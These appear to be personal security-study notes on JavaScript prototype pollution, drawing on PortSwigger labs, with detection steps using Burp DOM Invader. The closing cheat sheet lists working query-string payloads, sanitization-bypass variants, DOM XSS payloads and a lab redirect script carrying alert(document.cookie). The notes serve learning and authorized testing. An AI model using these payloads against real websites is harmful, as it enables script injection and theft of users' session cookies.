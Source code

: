 ### Prototype Pollution
  - https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance
  - Objects in js is key value pair
  - ```const user =  {
    username: "wiener",
    userId: 01234,
    exampleMethod: function(){
        // do something
    }
}```
   - Every object is linked to another object, and that object is linked to another object, untill null.
   - Ex: in JS, String are autoassign `String.prototype`. This becomes helpful, because a lot of methods like `Trim()` are in that prototype so string object can use them directly.
   - JavaScript engine first tries to access this directly on the object itself. If the object doesn't have a matching property, the JavaScript engine looks for it on the object's prototype instead.
   - Although this doesn't have a formally standardized name, __proto__ is the de facto standard used by most browsers
   - We can modify prototypes ```String.prototype.removeWhitespace = function(){
    // remove leading and trailing whitespace
}```
  - https://portswigger.net/web-security/prototype-pollution
  -  Prototype pollution vulnerabilities typically arise when a JavaScript function recursively merges an object containing user-controllable properties into an existing object, without first sanitizing the keys.
  -  Due to the special meaning of `__proto__` in a JavaScript context, the merge operation may assign the nested properties to the object's prototype instead of the target object itself. As a result, the attacker can pollute the prototype with properties containing harmful values, which may subsequently be used by the application in a dangerous way. This can allow an attacker to inject a property with a key like __proto__, along with arbitrary nested properties.
```
b = {"foo":"bar"}
a = b


console.log("Before assigning to a look at b proto",b.__proto__)
a.__proto__={"hidden_foo":"hidden_bar"}
console.log("a has hidden proto",a.__proto__);
console.log("Due to unsafe merging b also has it",b.__proto__)
```
  -  Successful exploitation of prototype pollution requires the following key components:
    - A prototype pollution source - This is any input that enables you to poison prototype objects with arbitrary properties. Commonly, URL, JSON input, web messages
    - A sink - In other words, a JavaScript function or DOM element that enables arbitrary code execution.
    - An exploitable gadget - This is any property that is passed into a sink without proper filtering or sanitization.
 - Client Side:
   1. Try to inject an arbitrary property via the query string, URL fragment, and any JSON input. For example:
    ```vulnerable-website.com/?__proto__[foo]=bar```
   2. In your browser console, inspect Object.prototype to see if you have successfully polluted it with your arbitrary property:
   ```
   	Object.prototype.foo
	// "bar" indicates that you have successfully polluted the prototype
	// undefined indicates that the attack was not successful
   ```
   3. If the property was not added to the prototype, try using different techniques, such as switching to dot notation rather than bracket notation, or vice versa:
	```vulnerable-website.com/?__proto__.foo=bar```
   4. Repeat this process for each potential source.
   5. In BURP, we can use DOM invader https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#detecting-sources-for-prototype-pollution
   6. Now Find gadget
   7. Look through the source code and identify any properties that are used by the application or any libraries that it imports.
   8. In Burp, enable response interception (Proxy > Options > Intercept server responses) and intercept the response containing the JavaScript that you want to test.
   9. Add a debugger statement at the start of the script, then forward any remaining requests and responses.
   10. In Burp's browser, go to the page on which the target script is loaded. The debugger statement pauses execution of the script.
   11. While the script is still paused, switch to the console and enter the following command, replacing YOUR-PROPERTY with one of the properties that you think is a potential gadget:
   12. Object.defineProperty(Object.prototype, 'YOUR-PROPERTY', {
    get() {
        console.trace();
        return 'polluted';
    }
})
    13. The property is added to the global Object.prototype, and the browser will log a stack trace to the console whenever it is accessed.
    14. Press the button to continue execution of the script and monitor the console. If a stack trace appears, this confirms that the property was accessed somewhere within the application.
    15. Expand the stack trace and use the provided link to jump to the line of code where the property is being read.
    16. Using the browser's debugger controls, step through each phase of execution to see if the property is passed to a sink, such as innerHTML or eval().
    17. Repeat this process for any properties that you think are potential gadgets.
  - https://gowthams.gitbook.io/bughunter-handbook/list-of-vulnerabilities-bugs/prototype-pollution
  - DOM invador is the way to go, makes life much easier, note: sometimes extra chars like `1` is being appended like this`if(manager && manager.sequence){ manager.macro(ar2z0fxj6prototypepollutionsequencear2z0fxj1) }` so add `-` in the end to ignore the 1.

### Via the constructor
	- sometimes the `__proto__` accessor is blocked, we maybe able to use `constructor` property.
### quick check
https-//example.com/?__proto__[foo]=bar
https-//example.com/?__proto__.foo=bar
https-//example.com/?constructor.[prototype][foo]=bar
https-//example.com/?constructor.prototype.foo=bar
# Bypass sanitization
https-//example.com/?__pro__proto__to__[foo]=bar`

https-//example.com/?__pro__proto__to__.foo=bar

https-//example.com/?constconstructorructor[prototype][foo]=bar

https-//example.com/?constconstructorructor.prototype.foo=bar

https-//example.com/?constconstructorructor[protoprototypetype][foo]=bar

https-//example.com/?constconstructorructor.protoprototypetype.foo=bar


Check in browser
Object.prototype.foo
constructor.prototype.foo

// the expected output: "bar"

# DOM XSS
https-//example.com/?__proto__[source_url]=data:,alert(1);

https-//example.com/?__proto__[source_url]=data:,alert(1);

https-//example.com/?__proto__[source_url]=alert(1)-

source_url can be [transport_url]

# vulnerable 3rd party library
<script>
    location="https://0a1c00af03786a9a80204452004a00a7.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29"
</script>
Here 0a1c00af03786a9a80204452004a00a7.web-security-academy.ne is vulnerable
